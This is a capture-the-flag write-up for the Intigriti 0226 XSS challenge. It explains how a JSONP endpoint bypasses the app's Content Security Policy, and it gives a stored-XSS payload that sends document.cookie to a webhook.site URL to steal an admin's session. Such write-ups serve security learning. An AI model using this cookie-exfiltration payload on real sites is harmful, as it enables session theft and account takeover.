

# [Intigriti-0226]

**Category:** [Web Exploitation]  
**Difficulty:** [Medium]

## Approach

So, to start we are met with this page:


So, to start, we know it's a XSS vulnerability and it can't be Self-XSS nor MitM Attacks.
So after downloading the source code to analyze and try locally, we move on to investigate the app.

The app is very simple, with only a few features:
- Register
- Login
- Dashboard
- Create/Edit/Delete/Report a Post

Due to the nature of a XSS Attack, the register and login features were out of the question, however, the management of posts is a prime target for these types of attacks!

So let's try to create a post with a few payloads in the title and the content:


However, this doesn't work... so let's try and see if we can find the code that renders the scripts.
After analyzing the source code of the page when we select a post, we find two interesting things:

### 1. The CSP

The CSP is set to only scripts from the source, this case: the app.

```html
meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src * data:; connect-src *;"
```

### 2. preview.js

```
(function() {
    'use strict';
    
    const pathParts = window.location.pathname.split('/');
    const postId = pathParts[pathParts.length - 1];
    
    if (!postId || isNaN(postId)) {
        return;
    }
    
    if (typeof CONFIG !== 'undefined' && CONFIG && CONFIG.safeMode === true) {
        document.getElementById('preview').innerHTML = '<p>Preview disabled in safe mode.</p>';
        return;
    }
    
    fetch('/api/render?id=' + postId)
        .then(function(response) {
            if (!response.ok) throw new Error('Failed to load');
            return response.json();
        })
        .then(function(data) {
            const preview = document.getElementById('preview');
            preview.innerHTML = data.html;
            processContent(preview);
        })
        .catch(function(error) {
            document.getElementById('preview').innerHTML = '<p class="error">Failed to load content.</p>';
        });
    
    function processContent(container) {
        const codeBlocks = container.querySelectorAll('pre code');
        codeBlocks.forEach(function(block) {
            block.classList.add('highlighted');
        });
        
        const scripts = container.querySelectorAll('script');
        scripts.forEach(function(script) {
            if (script.src && script.src.includes('/api/')) {
                const newScript = document.createElement('script');
                newScript.src = script.src;
                document.body.appendChild(newScript);
            }
        });
    }
})();
```

Specifically the last part, it says that it will load scripts that have as a src "/api/". However that is not a lot since we can just put a random source that includes that and it will work.

However, even after trying to use this payload, it doesn't work. So, the next step is to find a possible directory or feature in the server that allows the loading of scripts.

So I started fuzzing for functionalities:



And found 2! Config:


And jsonp, a well known method of running html scripts through the script tag, our EXACT objective!
So let's try a payload using all we have gathered until now:


Bingo! Payload: **\<script src="/api/jsonp?callback=alert(document.domain)//">\</script>**

So, we found the payload, HOWEVER, no Self-XSS allowed, so now we have to find the actual exploit. Now, ideally we could get the cookie of an admin user in the app, especially since there's a report button for each post.

So, if we use a payload that gets the cookie and sends it to a webhook we create, we could get the cookie! Let's try it:

Payload: **\<script src="/api/jsonp?callback=fetch('https://webhook.site/[id]/?cookieFlag='.concat(document.cookie))//">\</script>**

And ***JACKPOT***


Now we try it on the actual website to get the flag:


And we got it!